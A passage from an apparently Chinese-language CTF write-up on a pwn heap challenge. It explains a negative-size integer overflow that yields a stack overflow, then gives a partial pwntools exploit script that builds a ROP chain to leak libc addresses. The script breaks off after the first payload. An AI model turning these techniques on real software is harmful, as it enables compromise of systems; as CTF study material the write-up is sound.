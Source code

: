 ```python

io.interactive()
```

当然，本着学习的态度，我们可以思考一下，除了这种方法还有没有其他的方法呢？在发布wp点赞第一的文章中，我看到了对整型溢出的利用。上面的方法不需要整型溢出就可以实现，而整型溢出为我们提供了另外一种获取libc加载地址的方法。

由于本程序没有canary，如果我们将size写成负数，就可以在栈上实现溢出。但是这里我有一点不太清楚：如果将size写为负数，那么malloc注定失败返回空指针。在将content写入栈时，dest的值仍然是0，为什么不会报段错误？在进行gdb调试时，read函数检测到size为-1时根本就不会中断等待输入，而在脚本中我们强制传过去了一段内容，不知这样会对程序产生什么样的影响，但memcpy这个函数注定是不会执行了。总之这种方式是有效的，使用ROP获取到了puts函数的got表地址。

之后还是通过unlink，只不过直接修改free的地址即可。

payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# libc = ELF('./ctflibc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')
libc_atoi_addr = libc.symbols['atoi']
libc_sys_addr = libc.symbols['system']
libc_puts_addr = libc.symbols['puts']

print(hex(libc_atoi_addr))
print(hex(libc_sys_addr))

chunk_addr_bss = 0x6020E0

elf = ELF('./pwn')
io = process('./pwn')
# io = remote('111.200.241.244', 54585)

def create(size, index, content):
	io.sendlineafter(b'$ ', b'1')
	io.sendlineafter(b'Input size\n', str(size).encode())
	io.sendlineafter(b'Input cun\n', str(index).encode())
	io.sendafter(b'Input content\n', content)

def delete(index):
	io.sendlineafter(b'$ ', b'2')
	io.sendlineafter(b'Chose one to dele\n', str(index).encode())

def edit(index, content):
	io.sendlineafter(b'$ ', b'3')
	io.sendlineafter(b'Chose one to edit\n', str(index).encode())
	io.sendafter(b'Input the content\n', content)

main_addr = 0x400C8C
pop_rdi_ret_addr = 0x400DA3
one_gadget_addr = 0x41EBC

io.recv()
io.sendline(b'CoLin')

payload = cyclic(0x80)
payload += b'\x00' * 8		# the dest address, not matter
payload += b'\x00' * 8		# not to change the index
payload += cyclic(0x8)		# size
payload += p64(pop_rdi_ret_addr) + p64(elf.got['puts'])	# pop the address of .got.plt(puts) to rdi
payload += p64(elf.plt['puts']) + p64(main_addr)		# return to start address of main

create(-1, 0, payload)
```